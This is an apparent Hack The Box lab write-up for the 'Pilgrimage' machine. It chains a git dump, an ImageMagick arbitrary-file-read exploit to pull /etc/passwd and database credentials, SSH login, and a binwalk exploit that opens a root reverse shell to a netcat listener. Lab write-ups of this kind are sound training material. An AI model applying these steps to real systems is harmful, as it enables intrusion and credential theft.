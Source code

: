 <h2>Target: 10.129.238.141  Pilgrimage </h2>
<b>Initiial Access:</b><br>
Step 1: nmap -Pn 10.129.238.141 --min-rate=5000 -p-|grep open|awk -F '/' '{print $1}'|tr '\n' ',' <br>
Nmap returns open ports 22 and 80 <br><br>

Step 2: Enumerate these open ports further with nmap: nmap -Pn 10.129.238.141 --min-rate=5000 -p 22,80 -sC -sV -oN nmap-pilgrimage

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0e531d21-1efe-44ab-940e-7d522a5e1e84) 
 
Nmap shows port 80 tries to redirect to http://pilgrimage.htb.  Add this into the file /etc/hosts: 10.129.238.141 pilgrimage.htb

Now that the redirect should work, run the above nmap again to check if we get any extra information:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/ccc16fbc-612b-489d-b315-6d6b5f5653d2) 
 
Nmap shows that port 80 has a git repository.  

Step 3: Visiting port 80 shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e8c621b6-d0cf-4a63-bae3-2dea77c23455) 

The page shows a function for uploading files. Spending some time navigating the page and trying different attacks led nowhere.  

Step 4: Dump the git repository to our local pc using gitdumper.sh (download from https://github.com/internetwache/GitTools/tree/master): gitdumper.sh http://pilgrimage.htb/.git/   /tmp

Step 5: Check contents of the dumped git repository on our local pc: git log

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/8b6f1c96-d5f3-4da0-8be2-6b576ab241ce) 
 
This reveals a username of ‘emily’ and a commit of e1a40beebc7035212efdcb15476f9c994e3634a7.

Step 6: Check the contents of the commit: git checkout e1a40beebc7035212efdcb15476f9c994e3634a7

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/f45a4585-fc76-49a1-bf4b-2295a85fcb63) 

The commit shows a lot of files.  

Step 7: Check the ‘magick’ file: git checkout magick

Check the type of file for ‘magick’:  file magick

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/bf4fd9b4-5d12-4c9c-9cec-87d75a3f5a88) 
 
This shows that ‘magick’ is an executable file.

Step 8: Google search ‘magick executable’: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/b10b9767-994c-44ea-9772-328ccf3203d4) 
 
Google shows it’s “ImageMagick” which is used for editing images.  

Step 9: Check for known exploits for ‘magick’: searchsploit magick

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/6ae07a7a-fefe-4aeb-84f0-564e128d92a2)

Searchsploit shows a number of known vulnerabilities for different versions.  

Step 10: Check what version the target is using: ./magick --version 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e86cde1c-d43b-4065-bb59-57f352bbd538) 

The target is using version 7.1.0-49.  Looking back at our searchsploit results we see this version is vulnerable to an ‘Arbitrary File Read’.  Download this exploit: searchsploit -m php/webapps/51261.txt.

Step 11: Opening the exploit we downloaded from searchsploit shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/c850d839-141f-4f19-a354-3f7a0c48db5a)

Go to the PoC listed and download it: https://github.com/voidz0r/CVE-2022-44268 

Step 12: Follow the instruction in the PoC to get arbitrary file read.

A. Create the malicious image and give it the file we want to read: cargo run "/etc/passwd"

B. Go to the site on port 80 and upload the malicious image we created.  After uploading the malicious image, the page gives a url (found at the bottom of the page) where we can find the image we uploaded:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/b4265d8d-67fa-4224-aa2f-de451bed4b2b)

C. Download the image we uploaded (649c53107f1f8.png) using the url given: wget http://pilgrimage.htb/shrunk/649c53107f1f8.png

D. On our local pc run the command: identify -verbose 649c53107f1f8.png

The command output shows: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/3a0ada37-4678-469c-8f58-81a84ca3d7fe) 

E. Decode the hexadecimal part of the output using: python3 -c 'print(bytes.fromhex("paste-hexoutput-here”)'
 
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/302e4b51-ba51-4fcb-b859-31b3e7d9d4a9)
 
The decoded hexadecimal shows the contents of /etc/passwd.  

Step 12: Now that we have a way to read files on the target, we will look for a file on the target that will help us further exploit the target.  Earlier we checked a commit in the git repository and found many different files.  Checkout the file ‘register.php’ from the git repository: git checkout register.php  

Read the file ‘register.php’: cat register.php
 
![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0a2253b3-bd47-4a92-9c9b-aebcabda7a1d)
 
This shows a file of /var/db/pilgrimage.  Let’s read that file.
 
Step 13: Repeat previous step 11A-E to read the file /var/db/pilgrimage.  Looking through the decoded hexadecimal output for /var/db/pilgrimage shows:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/458512a1-1855-4d9c-8de7-2405fd3d22c5)

We find credentials.  Username ‘emily’ and password ‘abigchonkyboi123’.

Step 14: Try to login with ssh using the found credentials: ssh emily@pilgrimage.htb → enter the password when prompted.

It works, we have shell as emily.
__________________________________________________________________
<b>Privilege Escalation:</b><br>
Step 1: Upload pspy to the target.  Using pspy, check for running processes in the background that are running as root: ./pspy

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/e1b202a7-0e73-4ee3-bd36-23f1488c43b1)
   
Pspy shows malwarescan.sh running as root.

Step 2:  Read the file /usr/sbin/malwarescan.sh:

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/670fbbb8-9e5a-4ac3-a2ce-9a7a650f25cf)

The file malwarescan.sh uses ‘binwalk’.

Step 3: Check if binwalk has any known vulnerabilities: searchsploit binwalk

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/0e66ce40-8efc-47bc-8d5d-edd7788ff851)
 
Searchsploit finds a vulnerability for binwalk.  Check on the target what version of binwalk is being used: /usr/local/bin/binwalk

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/a68cd925-8945-4b6a-b5ff-99611849b05c)
  
The target has the vulnerable version: 2.3.2

Step 4: Download the exploit on our local pc: searchsploit -m python/remote/51249.py

Create the malicious file ‘binwalk_exploit.png’ by running this exploit: python 51249.py anyfile.jpeg your-ip any-port: 

![image](https://github.com/AdamRose1/HackTheBox-Writeups/assets/93153300/5d8620e1-6932-40cf-a342-8e978a40e053) 

Step 5: Upload the malicious file ‘binwalk_exploit.png’ to the target shell.  

On our local pc, open a netcat listener: nc -lvnp \<enter-same-port-number-used-for-malicious-file\>

Step 6: On the target shell, run the malicious file with binwalk: binwalk -e binwalk_exploit.png

Our netcat listener got a shell as root.  We can get the flag in /root/root.txt
